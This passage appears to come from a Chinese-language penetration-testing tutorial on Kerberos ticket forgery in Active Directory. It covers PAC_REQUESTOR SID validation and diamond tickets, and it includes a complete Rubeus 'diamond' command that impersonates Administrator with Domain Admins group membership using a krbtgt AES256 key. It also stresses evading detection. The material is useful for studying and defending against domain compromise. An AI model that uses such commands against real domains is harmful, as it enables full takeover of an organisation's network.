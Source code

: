 PAC\_REQUESTOR 包含应该 sid，其中域控会解析 PAC\_REQUESTOR 中用户和 sid 情况，如果 KDC 找不到用户或者和 sid 不匹配那就会直接吊销我们的 TGT

```bash
typedef struct _SID {
  BYTE                     Revision;
  BYTE                     SubAuthorityCount;
  SID_IDENTIFIER_AUTHORITY IdentifierAuthority;
#if ...
  DWORD                    *SubAuthority[];
#else
  DWORD                    SubAuthority[ANYSIZE_ARRAY];
#endif
} SID, *PISID;
```

当然我们用的 Rubeus 默认是支持新 tgt 结构的，如果要攻击没有打补丁的系统可以使用/oldpac，如果你要使用其他工具最好确保环境的兼容性；

### 钻石票据 Diamond tickets

由于黄金票据和白银票据跳过了前面的正常请求使得安全设备和日志能很容易发现这类攻击，为了解决这类问题，钻石票据闪亮登场，它自己用 krbtgt hash 的解密正常请求的 TGT，之后修改这个票据里面特定的字段，之后再重新加密，这使得安全设备更加难以检测出攻击事件的发生。

使用 rubeus 命令要跟上 diamond，/ticketuserid 是冒充用户的 rid，也就是 sid 的最后一段；

[![](assets/1707953845-b9ac35922a39ec9c621c1c3c7844a655.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040812-4a2a1726-c462-1.png)

/tgtdeleg 使用 Kerberos GSS-API 为当前用户获取可用的 TGT，而无需知道他们的密码；/ticketuser 是我们要冒充的用户，权限的判断取决于这里，/groups 指定要冒充的组，要和前面冒充的用户保持一致，/krbkey 是 krbtgtAES256 的 hash，我之前重置了密码，所以现在 AES256 hash 变了，最终命令如下：

```bash
execute-assembly C:\tools\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:512 /enctype:AES256 /krbkey:3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17 /nowrap
```

执行效果：
